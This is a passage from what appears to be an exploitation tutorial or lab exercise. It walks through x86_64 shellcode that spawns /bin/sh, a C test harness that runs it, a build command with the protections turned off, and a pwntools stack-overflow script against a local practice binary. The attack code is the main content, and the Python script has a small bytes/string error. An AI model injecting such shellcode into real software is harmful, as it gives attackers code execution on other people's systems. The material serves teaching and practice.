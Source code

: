#### Design the Exploit 
The following code is a shellcode snippts for x86_64, which executes system("/bin/sh"). 
```
xor eax, eax
mov 0xFF978CD091969DD1, rbx
neg rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
pop rsi
mov 0x3b, al
syscall
```

We can test if the shellcode works via the following code. It first encodes and saves the shellcode as a char array, and then jumps to it as a function call.
```c
const char shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main (void) {
  char buf[256];
  int len = sizeof(shellcode);
  for(int i=0; i<len; i++)
	    buf[i] = shellcode[i]; 
      ((void (*) (void)) buf) ();
}
```
```shell
clang –no-pie -z execstack shell.c -o shell
```

If it works, we can inject the shellcode to the vulnerable program.
```python
#! /usr/bin/env python
from pwn import *
# context.log_level = 'debug'

ret = 0x7fffffffe000
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload = shellcode + 'A' * (88-len(shellcode)) + p64(ret)
p = process("./vuln")
p.send(payload)
p.interactive()

```

You have to replace the return address based on your own computer. As a shortcut, you can print the address of `buf`.
```c
printf("buf address: %p\n", (void*)buf);
```
